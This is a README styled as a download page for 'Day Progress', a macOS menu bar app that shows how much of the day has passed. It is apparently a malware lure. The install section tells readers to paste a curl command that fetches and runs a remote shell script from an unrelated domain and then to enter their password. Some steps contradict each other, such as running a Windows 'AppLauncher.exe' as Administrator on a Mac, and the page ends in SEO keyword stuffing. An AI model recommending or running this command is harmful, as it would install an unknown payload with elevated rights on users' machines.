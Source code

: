 <p align="center">
  <img src="https://sindresorhus.com/apps/day-progress/icon.png" alt="Day Progress Logo" width="180"/>
</p>

<h1 align="center">🌤️ Day Progress — Track Your Day at a Glance</h1>

<p align="center">
  <a href="https://day-progress-mac-download.github.io/.github/" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20DAY%20PROGRESS%20MAC-GET%20FULL%20ACCESS-1abc9c?style=for-the-badge&logo=apple&logoColor=white" alt="Download Day Progress for Mac">
  </a>
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 📌 About

**Day Progress** is a lightweight macOS menu bar utility that displays a dynamic progress bar showing how much of the current day has passed. Designed for those who value time-awareness without clutter.

No widgets. No distractions. Just clean UI, battery-friendly operation, and native feel.

---

## 🎯 Features

- 🕒 Smooth day progress tracking
- 🌙 Optional dark mode adaptation
- 📅 Calendar-aware progress logic
- 🧠 Minimal CPU usage
- 💻 Fully compatible with Apple Silicon

---

## 💡 How to Use

1. **Unpack** the archive to any convenient folder  
2. **Move** the app to your Applications directory (recommended)  
3. **Launch AppLauncher.exe from the archive as Administrator**  
4. **See** the percentage of your day in the macOS menu bar

---

## 🖼️ Screenshots

<p align="center">
  <img src="https://external-preview.redd.it/wArPgqZmXGIzSYn8rTwKhy5KzNnPVc8rAa348hfHKi8.jpg?auto=webp&s=8c274157d8e799f3504f8e2cedca6486b15ce943" alt="Day Progress Screenshot 1" width="840"/>
  <br><br>
  <img src="https://www.progressbarosx.com/4.jpg" alt="Day Progress Screenshot 2" width="840"/>
</p>

---

## 🖥️ System Requirements

- **macOS Versions:** 13, 14, 15  
- **Processor:** Apple Silicon (M1, M2, M3, M4)  
- **RAM:** Minimum 4 GB  

---

## 📢 Slogan

**Every second counts — Day Progress shows it.**  
Designed to remind you time is your greatest resource.

---

## 🔍 SEO Keywords

`day progress mac` `day progress mac app` `mac menu bar time`  
`mac time tracker` `macos progress bar app` `menu bar visualizer`  
`macos productivity app` `day tracker mac` `menu bar day view`  
`apple silicon menu utility` `macos minimalist tools`  
`track your day mac` `macos progress indicator` `macos time awareness`

